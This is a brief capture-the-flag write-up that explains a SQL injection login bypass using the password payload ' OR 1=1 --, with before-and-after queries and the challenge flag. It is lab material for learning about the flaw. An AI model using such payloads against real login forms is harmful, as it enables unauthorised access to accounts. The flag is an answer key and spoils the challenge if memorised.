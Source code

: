 # 🔑 Write-Up

As we can see from the webpage's tab, we can try with an SQL injection. 

We can put anything as `username`, and for the `password`:
```plaintext
' OR 1=1 --
```
So, if the query were something like this
```sql
SELECT id, username FROM users WHERE username='user' AND password='password'
```
the resulting query would be 
``` sql
SELECT id, username FROM users WHERE username='user' AND password='' OR 1=1 --
```
The `--` comments out everything that follows on the same line, making the query effective. Since 1=1 is always true, the condition `OR 1=1` will always return `TRUE`, and thus the query will return the user with the username `user` regardless of the password.
### 🚩 Flag

```plaintext
spritz{Bl4nc0_m4dness}
```